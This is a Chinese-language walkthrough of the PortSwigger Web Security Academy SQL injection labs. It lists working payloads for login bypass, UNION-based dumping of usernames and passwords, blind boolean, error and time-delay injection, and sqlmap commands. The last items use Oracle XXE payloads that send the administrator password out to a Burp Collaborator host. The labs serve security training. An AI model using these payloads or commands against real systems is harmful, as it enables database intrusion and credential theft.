








burpsuite实验室sql注入通关记录
1.WHERE子句中的SQL注入漏洞允许检索隐藏数据
抓包礼物分类按钮：
payload:
1 | /filter?category=Corporate+gifts'or+1=1--+ |
2.SQL注入漏洞允许登录绕过
登陆框万能密码payload:
1 | administrator'-- |
3.SQL注入UNION攻击，确定查询返回的列数
order by确定返回列数：
payload:
1 | Clothing%2c+shoes+and+accessories'order+by+§1§--+ |
爆破1，确定有三个字段

4.SQL注入UNION攻击，查找包含文本的列
order by确定有三列
payload:
1 | 'union+select+null,null,null--+ |
一次确定第二个字段为String类型
paylaod:
1 | 'union+select+null,'aB4z0h',null--+ |
5.SQL注入UNION攻击，从其他表中检索数据
确定产品分类处存在sql注入
pyload:
1 | 'union+select+null,null--+ |
确定数据表有两列
payload:
1 | 'union+select+username,password+from+users--+ |
返回users表内容：

6.SQL注入UNION攻击，在单个列中检索多个值
当只有一个列有返回值时，又想一次性查询多个数据可以尝试使用链接符
不同数据库链接符：
String concatenation
You can concatenate together multiple strings to make a single string.
| Oracle | ‘foo’||’bar’ |
|---|---|
| Microsoft | ‘foo’+’bar’ |
| PostgreSQL | ‘foo’||’bar’ |
| MySQL | ‘foo’ ‘bar’ [Note the space between the two strings]CONCAT(‘foo’,’bar’) |
payload:
1 | 'union+select+null,username+||+'~'+||+password+from+users--+ |

7.SQL注入攻击，在Oracle上查询数据库类型和版本
确定字段数量，和类型
payload:
1 | '+UNION+SELECT+'abc','def'+FROM+DUAL-- |
oracle数据库查询数据时必须指定表
查询数据库版本：
payload:
1 | 'union+select+banner,null+from+v$version--+ |

8.SQL注入攻击，在MySQL和Microsoft上查询数据库类型和版本
payload:
1 | 'union+select+null,@@version--+ |
改查询语句再mssql和mysql上都适用
也可使用:
1 | 'union+select+null,version()--+ |
9.SQL注入攻击，列出非Oracle数据库上的数据库内容
发现产品类型更改处存在sql注入，为了获取数据表的详细内容使用sqlmap
确定注入点：
1 | sqlmap -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" --dbs |
爆表：
1 | sqlmap -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" --tables -D"public" --technique U --technique U 使用union联合注入 |
爆字段：
1 | sqlmap -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" --columns -T"users_ygohdx" -D"public" --technique U |
爆字段内容：
1 | sqlmap -u"https://ac7e1f8e1eb3fd41800b077d005800b3.web-security-academy.net/filter?category=Accessories" --dump -T"users_ygohdx" -D"public" --technique U –force-ssl –force-ssl 强制为ssl链接 |
10.SQL注入攻击，列出Oracle上的数据库内容
产品类别处存在sql注入
并且已经知道数据库为oracle,并且可以使用union 联合注入
- 确定数据库版本：
paylaod:
1 | /filter?category=Accessories'union+select+banner,'abc'+from+v$version--+ |

11.带条件错误的盲SQL注入
确定cookie中的TrackingId 能够sql注入
判断语句：
1 | TrackingId=9pD3eC5YpJtrML6B' +UNION+SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual-- |
返回正确页面
1 | TrackingId=9pD3eC5YpJtrML6B' +UNION+SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual-- |
返回错误页面
判断可以布尔盲注
注入语句：
1 | TrackingId='+UNION+SELECT+CASE+WHEN+(username='administrator' +AND+substr(password,1,1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users-- |

12.带条件响应的盲SQL注入
cookie中的TrackingId存在布尔盲注
1 | TrackingId=qjuCxOqaqliFBZIo'+and+1=1-- |
响应中含有welocme back
1 | TrackingId=qjuCxOqaqliFBZIo'+and+1=2-- |
响应中不含有welocme back
可以使用sqlmap进行布尔盲注：
1 | sqlmap -u"https://acdc1ff31e4b36ba8046046200ae00da.web-security-academy.net" --cookie="TrackingId=qjuCxOqaqliFBZIo; session=P4r9aqFAWSWvfrR3BXV2vQ0WtRFbOU7i" --level 2 --skip="session" --string="Welcome back" --dump -T"users" -D"public" --technique B --force-ssl |

13.具有时间延迟的盲SQL注入
payload:
1 | TrackingId=gWHaxg2leLivbANe'||pg_sleep(10)--; |
|| == and
pg_sleep(10)
postGreSQL数据库延时注入方法。
14.具有时间延迟和信息检索功能的盲SQL注入
sqlmap payload:
1 | sqlmap -u"https://ac581f491ff33d44807531df001d00fe.web-security-academy.net" |
15.带外交互的盲SQL注入
因为是oracle数据库
使用paylaod:
1 | TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual-- |
各类型数据库带外交互语句：
| Oracle | The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:SELECT extractvalue(xmltype(‘ %remote;]>’),’/l’) FROM dual The following technique works on fully patched Oracle installations, but requires elevated privileges:SELECT UTL_INADDR.get_host_address(‘YOUR-SUBDOMAIN-HERE.burpcollaborator.net’) |
|---|---|
| Microsoft | exec master..xp_dirtree ‘//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a’ |
| PostgreSQL | copy (SELECT ‘’) to program ‘nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net’ |
| MySQL | The following techniques work on Windows only:LOAD_FILE(‘\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a’)SELECT … INTO OUTFILE ‘\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a’ |
参考链接：
https://portswigger.net/web-security/sql-injection/cheat-sheet
16.带外数据渗透的盲SQL注入
oracle数据库带外交互泄露数据
payload:
1 | TrackingId=wSR0EMmzIveEzi7k'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.n6uac1qxzsv0xqtqk04q6v0zyq4js8.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual-- |

 alipay
alipay